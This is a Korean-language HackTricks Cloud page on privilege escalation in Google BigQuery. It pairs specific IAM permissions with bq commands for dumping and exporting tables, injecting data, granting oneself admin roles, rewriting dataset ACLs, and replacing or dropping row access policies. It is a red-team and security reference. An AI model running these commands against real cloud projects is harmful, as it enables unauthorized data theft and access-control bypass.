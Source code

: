 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

BigQuery에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery 테이블에 저장된 정보를 읽으면 **민감한 정보**를 찾을 수 있습니다. 정보를 접근하기 위해 필요한 권한은 **`bigquery.tables.get`**, **`bigquery.jobs.create`** 및 **`bigquery.tables.getData`**입니다:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

이것은 데이터를 접근하는 또 다른 방법입니다. **클라우드 스토리지 버킷에 내보내고** **정보가 담긴 파일을 다운로드**합니다.\
이 작업을 수행하려면 다음 권한이 필요합니다: **`bigquery.tables.export`**, **`bigquery.jobs.create`** 및 **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### 데이터 삽입

**다른 곳의 취약점을 악용하기 위해** Bigquery 테이블에 **신뢰할 수 있는 특정 데이터를 삽입하는 것이** 가능할 수 있습니다. 이는 **`bigquery.tables.get`**, **`bigquery.tables.updateData`** 및 **`bigquery.jobs.create`** 권한으로 쉽게 수행할 수 있습니다:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

공격자는 이 권한을 악용하여 **BigQuery 데이터셋에 대한 추가 권한을 부여할 수 있습니다**:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

이 권한만으로도 **ACL을 수정하여 BigQuery 데이터셋에 대한 액세스를 업데이트할 수 있습니다**.
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

공격자는 이 권한을 악용하여 **자신에게 추가 권한을 부여**할 수 있습니다.
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

문서에 따르면, 언급된 권한으로 **행 정책을 업데이트할 수 있습니다.**\
그러나 **cli `bq`를 사용하려면** 추가로 **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**이 필요합니다.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

행 정책 열거의 출력에서 필터 ID를 찾는 것이 가능합니다. 예:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
만약 **`bigquery.rowAccessPolicies.delete`**가 `bigquery.rowAccessPolicies.update` 대신 있다면, 정책을 삭제할 수도 있습니다:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
행 액세스 정책을 우회할 수 있는 또 다른 잠재적인 옵션은 제한된 데이터의 값을 변경하는 것입니다. `term`이 `Cfba`일 때만 볼 수 있다면, 테이블의 모든 레코드를 `term = "Cfba"`로 수정하십시오. 그러나 이는 bigquery에 의해 방지됩니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
